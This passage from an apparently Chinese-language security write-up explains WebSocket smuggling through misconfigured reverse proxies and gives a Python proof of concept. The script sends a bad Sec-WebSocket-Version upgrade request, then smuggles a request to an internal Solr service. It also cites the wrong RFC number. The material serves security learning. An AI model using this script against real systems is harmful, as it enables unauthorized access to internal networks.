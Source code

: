 ## Websocket

其实这部分完全可以作为一个独立的部分，但是感觉篇幅有点长了，这里就做一下简单的介绍，在 Hackactivity 2019 上，@0ang3el 提出了与 Websocket 相关的攻击技术 [What’s wrong with WebSocket APIs? Unveiling vulnerabilities in WebSocket APIs.](https://www.slideshare.net/0ang3el/whats-wrong-with-websocket-apis-unveiling-vulnerabilities-in-websocket-apis)，让我比较感兴趣的则是 Websocket Smuggling 的部分。

作者也把相关的描述放在了 [websocket-smuggle](https://github.com/0ang3el/websocket-smuggle) 这里，这个攻击面是什么呢？帮大家一句话总结就是在 websocket 建立连接时，如果反向代理没有完全严格遵守 RFC 6445 标准，在处理`Sec-WebSocket-Version` 版本错误的情况并没有做好相应的处理，导致了保持了客户端与后端服务器 TCP/TLS 的连接，所以造成了我们可以进行 Smuggling 请求的攻击，这里直接表现为可以通过这种攻击访问内网。

这里我们假设内网存在 solr 服务，外网无法访问，如果存在 websocket smuggling，我们可以编写以下代码访问 solr 服务：

```bash
import socket 

req1 = """GET /socket.io/?EIO=3&transport=websocket HTTP/1.1
Host: ip:port
Sec-WebSocket-Version: 1338
Upgrade: websocket

""".replace('\n', '\r\n')

req2 = """GET /solr/#/ HTTP/1.1
Host: localhost:8983

""".replace('\n', '\r\n')

def main(netloc):
    host, port = netloc.split(':')

    sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    sock.connect((host, int(port)))

    sock.sendall(req1)
    sock.recv(4096)

    sock.sendall(req2)
    # print req2
    data = sock.recv(4096)
    data = data.decode(errors = 'ignore')
    print(data)
    data = sock.recv(4096)
    data = data.decode(errors = 'ignore')
    print(data)

    sock.shutdown(socket.SHUT_RDWR)
    sock.close()

if __name__ == "__main__":
    main('ip:port')
```
